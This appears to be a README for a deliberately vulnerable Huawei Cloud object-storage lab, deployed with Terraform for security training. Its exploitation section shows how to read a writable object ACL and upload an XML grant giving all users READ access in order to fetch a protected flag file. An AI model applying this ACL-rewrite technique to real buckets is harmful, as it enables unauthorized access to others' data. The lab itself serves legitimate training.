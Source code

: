 # Huawei Cloud OBS object ACL writable vulnerability environment

English | [中文](./README_CN.md)

## Description

This is a vulnerability environment range for building HUAWEI CLOUD Object ACL.

After you build an environment with Terraform, users can read data that would otherwise not be read by modifying object's ACL policy.

## Deployment Environment

run in a container

```shell
cd /TerraformGoat/object_storage_service/huaweicloud/object_acl_writable/
```

Edit the `terraform.tfvars` file and fill in the file with your `huaweicloud_access_key` and `huaweicloud_secret_key`.

> The access key can be found in HUAWEI CLOUD [Console --> My Credentials]

```shell
vim terraform.tfvars
```

Deploy Vulnerable Environment

```shell
terraform init
terraform apply
```

> When the terminal prompts `Enter a value:`, enter `yes`

![image](../../../images/1650779200.png)

After the environment is set up, you can see the created Bucket at Outputs.

This Bucket has Object ACL read and write permissions, and the Object Key is the flag.

## Vulnerability Utilization

Try to read the flag file and find that it prompts access denied.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650779408.png)

Attempt to read the ACL policy of the flag file and found that it can be read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag?acl
```

![image](../../../images/1650779592.png)

Try to use the PUT method to upload the Object ACL policy of the flag file, add the following policy to the original policy, and find that it can be uploaded.

```xml
<Grant>
  <Grantee xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:type="Group">
    <URI>http://acs.amazonaws.com/groups/global/AllUsers</URI>
  </Grantee>
  <Permission>READ</Permission>
</Grant>
```

![image](../../../images/1650779871.png)

Try to read the flag file again, you can see that the flag file was successfully read.

```shell
https://hx-cloud-security-xxx.obs.cn-north-1.myhuaweicloud.com/flag
```

![image](../../../images/1650780002.png)

## Destroy the environment

```shell
terraform destroy
```
